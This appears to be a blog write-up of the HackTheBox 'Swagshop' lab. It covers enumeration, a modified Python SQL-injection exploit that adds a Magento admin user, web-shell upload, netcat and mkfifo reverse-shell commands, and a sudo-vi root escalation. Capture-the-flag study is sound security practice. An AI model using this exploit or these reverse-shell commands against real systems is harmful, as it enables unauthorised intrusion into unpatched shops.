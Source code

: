 ```yaml
---
layout: post
title:  "Hackthebox - Swagshop write-up"
date:   2019-10-14 10:25:00 +0200
categories: Hackthebox
---
```


## Introduction

![](https://i.imgur.com/ovX598s.png)

SwagShop, which appeared on HackTheBox on 2019/05/12, is a fun and easy GNU/Linux box. It contains an ecommerce shop running on an old/unpatched version of **Magento** which has some known and ready-to-use exploits. The path is quite straightforward, after some initial enumeration we can gain access to the admin panel, upload a reverse shell, get ```user.txt``` and ```root.txt``` in a couple of minutes.

## Enumeration

We can start by enumerating the services running on the machine, which is located at 10.10.10.140

```
chap@box~ > nmap -sV 10.10.10.140

Starting Nmap 7.60 ( https://nmap.org ) at 2019-05-22 10:32 CEST
Nmap scan report for 10.10.10.140
Host is up (0.099s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

As we can see, the machine is only exposing ssh and Apache. Taking a look to the website seems the most reasonable thing to do so let’s move to the web browser.

## Web pages

Going to http://10.10.10.140 leds us to an ecommerce store running on Magento and containing a couple of products. From what we can see, the pages are dated 2014, making us think that the Magento version used is quite old and probably unpatched.
While taking a look at all the pages we can also fire up gobuster in order to do some enumeration using [SecLists’ wordlists](https://github.com/danielmiessler/SecLists).

```
chap@box ~/S/D/Web-Content> gobuster -u "10.10.10.140" -w common.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.140/
[+] Threads      : 10
[+] Wordlist     : common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2019/05/15 00:00:11 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/app (Status: 301)
/downloader (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
=====================================================
2019/05/15 00:00:52 Finished
=====================================================
```

The scan pokes us with a couple of interesting pages, while taking a look at all of them we stumble upon ```http://10.10.10.140/downloader/``` which contains the login panel of **Magento connect manager**, Magento’s original marketplace for extensions.

![](https://i.imgur.com/EOAwSMQ.png)

As we can see, the version running is **1.9.0.0**. By making a rapid search on Exploit database, we discover this version has a [known exploit](https://www.exploit-db.com/exploits/37977).

## Exploitation

The Python exploit needs to be tailored a little in order to fit our needs.

```
import requests
import base64
import sys

target = "http://target.com/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "downloader"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="user", password="password")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/downloader/ with creds user:password".format(target)
else:
    print "DID NOT WORK"
```

This is the modified version of the Python exploit, the original one can be found on Exploit database.

Once we run the exploit, we can log in using user:password as credentials.

From this panel, we can upload/install Magento extensions as well as have access to the administrator panel. I decided to try and upload [Magpleasure Filesystem extension](https://magentary.com/glossary/magpleasurefilesystem-extension/) in order to modify a .php file and upload a reverse shell.

After uploading the extension we can use the “Return to Admin” button in order to take advantage of our newly uploaded extension. Back to the Administrator panel we can now go to System > Filesystem > IDE and use our integrated IDE. The file targeted with an uploader is http://10.10.10.140/get.php using a slightly modified version of [this basic uploader](https://gist.githubusercontent.com/taterbase/2688850/raw/b9d214c9cbcf624e13c825d4de663e77bf38cc14/upload.php).

![](https://i.imgur.com/BPt3q2E.png)

Using our basic uploader we can upload and use [SecLists’ cmd-simple reverse shell](https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/FuzzDB/cmd-simple.php) and launch a couple of basic commands straight from our address bar.

After a couple of ls and cat we get to http://10.10.10.140/app/cmd-simple.php?cmd=cat+/home/haris/user.txt which contains the hash ```a448877277e82f05e5ddf9f90aefbac8``` needed to own user.

![](https://i.imgur.com/USTlH5S.png)

We still need a fully working reverse shell before getting root. We try to spawn one using the classic netcat method,  starting a listener on ```nc -lvnp [PORT]``` and launching ```nc -e /bin/sh [IPADDR] [PORT]``` from our uploaded shell. This method seems to not work at all, probably because this version of nc doesn’t support the ```-e``` parameter needed to execute commands after connecting.

Second shot is

```
rm /tmp/shell;mkfifo /tmp/shell;cat /tmp/shell|/bin/sh -i 2>&1|nc [IPADDR[ [PORT] >/tmp/shell
```

[This method](https://onofri.org/security/%ef%bb%bfpenetration-testing-ottenere-shell-e-tty-su-linux/#more-191) works and gets us a fully working reverse shell.

Running ```sudo -l``` shows us the commands we can run and the folders we have write access to as ```www-data``` (we are logged in as www-data, the Apache user). 
From this step, getting root is quite simple. The command:

```
sudo /usr/bin/vi /var/www/html/root.sh
```

Allows us to run ```vi``` as ```root``` in ```/var/www/html/``` and to launch a root shell by typing ```:!bash``` inside vi. After that, ```cat /root/root.txt``` gets the job done.

![](https://i.imgur.com/DA8zEiq.png)

__(Low quality pics because I lost the original ones, recovered this one from a pdf I exported a while ago while discovering that Google docs renders images quite badly)__
